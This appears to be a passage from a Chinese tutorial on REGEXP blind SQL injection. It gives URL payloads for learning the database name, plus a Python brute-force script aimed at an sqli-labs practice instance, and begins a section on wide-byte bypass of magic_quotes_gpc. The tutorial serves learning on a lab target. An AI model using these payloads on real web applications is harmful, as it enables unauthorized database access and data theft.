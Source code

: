 REGEXP注入，即regexp正则表达式注入。REGEXP注入，又叫盲注值正则表达式攻击。应用场景就是盲注，原理是直接查询自己需要的数据，然后通过正则表达式进行匹配。

1、判断数据库长度

```sql
/?id=' or (length(database())) regexp 8 --+  // 回显正常
```

2、判断数据库名

```sql
/?id=' or database() regexp '^s'--+    // 回显正常
/?id=' or database() regexp 'se'--+    // 回显正常, 不适用^和$进行匹配也可以
/?id=' or database() regexp '^sa'--+   // 报错
/?id=' or database() regexp 'y$'--+    // 回显正常
```

脚本

```python
import requests
import string

# strs = string.printable
strs = string.ascii_letters + string.digits + '_'
url = "http://b8e2048e-3513-42ad-868d-44dbb1fba5ac.node3.buuoj.cn/Less-8/?id="

payload = "' or (select database()) regexp '^{}'--+"

if __name__ == "__main__":
    name = ''
    for i in range(1, 40):
        char = ''
        for j in strs:
            payloads = payload.format(name + j)
            urls = url + payloads
            r = requests.get(urls)
            if "You are in" in r.text:
                name += j
                print(j, end='')
                char = j
                break
        if char == '#':
            break
```

### 过滤引号绕过

#### 宽字节注入

**magic_quotes_gpc**

`magic_quotes_gpc`函数在php中的作用是判断解析用户提交的数据，如包括有：post、get、cookie过来的数据增加转义字符“\”，以确保这些数据不会引起程序，特别是数据库语句因为特殊字符引起的污染而出现致命的错误。

单引号（’）、双引号（”）、反斜线（\）等字符都会被加上反斜线，我们输入的东西如果不能闭合，那我们的输入就不会当作代码执行，就无法产生SQL注入。
